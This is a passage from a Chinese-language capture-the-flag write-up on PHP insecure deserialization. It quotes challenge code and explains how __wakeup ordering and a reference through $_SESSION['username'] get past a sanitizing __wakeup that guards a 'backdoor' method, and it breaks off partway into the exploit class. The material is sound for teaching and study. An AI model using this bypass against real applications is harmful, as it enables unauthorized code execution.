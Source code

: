 ```
B wakeup
A wakeup
```

可以看到 B 的 wakeup 先于 a 执行, 所以猜测反序列化时 php 会先对属性进行反序列化, 并执行属性的 \_\_wakeup, 最后才执行这个类本身的 \_\_wakeup

回到题目源码

```php
<?php

class User
{
......
    public function __wakeup(){
        $cklen = strlen($_SESSION["username"]);
        if ($cklen != 0 and $cklen <= 6) {
            $this->username = $_SESSION["username"];
        }
    }
......
}

......

class Test
{
    public $value;

    public function __destruct(){
        chdir('./upload');
        $this->backdoor();
    }
    public function __wakeup(){
        $this->value = "Don't make dream.Wake up plz!";
    }
......
    public function backdoor(){
        if(preg_match('/[A-Za-z0-9?$@]+/', $this->value)){
            $this->value = 'nono~';
        }
        var_dump($this->value);
    }

}
```

Test 类中的 \_\_wakeup 会对 value 进行污染导致无法执行指定命令, 但是在了解了上面的 demo 之后我们可以让 User 类的 \_\_wakeup 延后执行, 并将 value 的引用赋给 username, 最终利用 `$_SESSION['username']` 来间接赋值

```php
<?php

class User
{
    public $username;
    public function __wakeup(){
        $cklen = strlen($_SESSION['username']);
        if ($cklen != 0 and $cklen <= 6) {
            $this->username = $_SESSION['username'];
        }
    }
    public function __destruct(){
        if ($this->username == '') {
            session_destroy();
        }
```
